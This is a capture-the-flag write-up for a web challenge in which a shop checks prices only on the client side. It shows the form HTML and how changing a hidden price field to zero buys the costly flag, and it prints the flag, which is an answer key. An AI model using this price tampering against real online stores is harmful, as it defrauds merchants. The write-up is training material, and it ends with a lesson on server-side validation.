 ## Challenge Name: Flags Shop
**Category:** Web

**Challenge Description:**

Wow, this site sells some amazing "flags", but the one I want costs too much. Can you help me?

Website: http://shops.challs.olicyber.it

### Approach

Upon inspecting the HTML source code of the Flags Shop page, we notice that there are three flags available for purchase:

1. French Flag: €10
2. Italian Flag: €100
3. Anonymous Flag: €1000

However, the price of the Anonymous Flag seems unusually high compared to the others since we only have €100.

### Exploiting the Vulnerability

By examining the HTML code, we notice that the price of the Anonymous Flag is set to €1000. However, upon closer inspection, we find that there's a possibility that the price check might not be implemented correctly, it's done client side and not server side.

We can manipulate the form data before submitting it to the server. Specifically, we can change the price of the Anonymous Flag from €1000 to €0 and attempt to purchase it.

### Solution

1. **Inspect the HTML Source Code:** Examine the HTML source code of the Flags Shop page to identify the pricing of the flags.
```
<div class="card-title">Bandiera anonymous</div>
<div class="card-text">1000 €</div>
<form action="buy.php" method="POST" class="mt-2">
    <input type="hidden" name="id" value="2">
    <input type="hidden" name="costo" value="1000">
    <button type="submit" class="btn btn-primary">ACQUISTA</button>
</form>                  
```

2. **Manipulate Form Data:** Change the price of the Anonymous Flag from €1000 to €0 by modifying the hidden input field `costo` in the form.

```
<div class="card-title">Bandiera anonymous</div>
<div class="card-text">1000 €</div>
<form action="buy.php" method="POST" class="mt-2">
    <input type="hidden" name="id" value="2">
    <input type="hidden" name="costo" value="0">
    <button type="submit" class="btn btn-primary">ACQUISTA</button>
</form>                  
```

3. **Purchase the Flag:** Submit the modified form data to the server by clicking the "ACQUISTA" (PURCHASE) button for the Anonymous Flag.

4. **Obtain the Flag:** Upon successful purchase, the server should respond with the purchased flag.

### Flag
```
flag{gr4zi3_p3r_l_4cqu1st0}
```


### Reflections

This challenge demonstrates the importance of implementing proper server-side validation and price checks to prevent manipulation of form data by users. In this case, the vulnerability allowed us to exploit the pricing logic and obtain the flag at a significantly reduced price.

---
<a href="/olicyber-training/main.md" class="btn">Back to home</a>
